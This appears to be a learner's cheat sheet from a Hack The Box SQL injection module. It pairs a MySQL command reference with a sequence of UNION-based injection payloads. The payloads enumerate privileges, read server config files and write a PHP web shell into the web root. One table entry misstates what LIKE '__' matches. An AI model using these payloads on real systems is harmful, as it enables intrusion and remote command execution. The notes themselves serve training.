 
> ⚠️ **PAY ATTENTION:**
> 
>  Order for stuff to check when uploading file, fix needed!

```sql
' order by 6-- -
' UNION select NULL,database(),NULL,NULL,NULL-- -	ilfreight
' UNION select NULL,user(),NULL,NULL,NULL-- -	root@localhost
' UNION select NULL,grantee,privilege_type,NULL,NULL FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -	FILE
' UNION select NULL,variable_name,variable_value,NULL,NULL FROM information_schema.global_variables where variable_name="secure_file_priv"-- -	EMPTY
' UNION select NULL,LOAD_FILE("/etc/apache2/apache2.conf"),NULL,NULL,NULL-- -
' UNION select NULL,LOAD_FILE("/etc/nginx/nginx.conf"),NULL,NULL,NULL-- -
' UNION select "",'<?php system($_REQUEST[cmd]); ?>',"","","" into outfile '/var/www/html/dashboard/shell.php'-- -
```

## SQL Injection Prevention
https://academy.hackthebox.com/module/33/section/794


## MySQL
### MySQL Commands
| Command | Description |
|---------|-------------|
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p` | Login to MySQL database |
| `SHOW DATABASES` | List available databases |
| `USE users` | Switch to a specific database |
| `SHOW TABLES` | List available tables in the current database |
| `DESCRIBE logins` | Show table properties and columns |
| `SELECT * FROM table_name` | Show all columns in a table |
| `SELECT column1, column2 FROM table_name` | Show specific columns in a table |
| `SELECT * FROM logins WHERE username like '__';` | Show username with 3 characters |
| `SELECT * FROM logins WHERE username LIKE 'admin%';` | Show records starting with admin |

### MySQL Operators
- Division (`/`), Multiplication (`*`), and Modulus (`%`)
- Addition (`+`) and subtraction (`-`)
- Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
- NOT (`!`)
- AND (`&&`)
- OR (`||`)

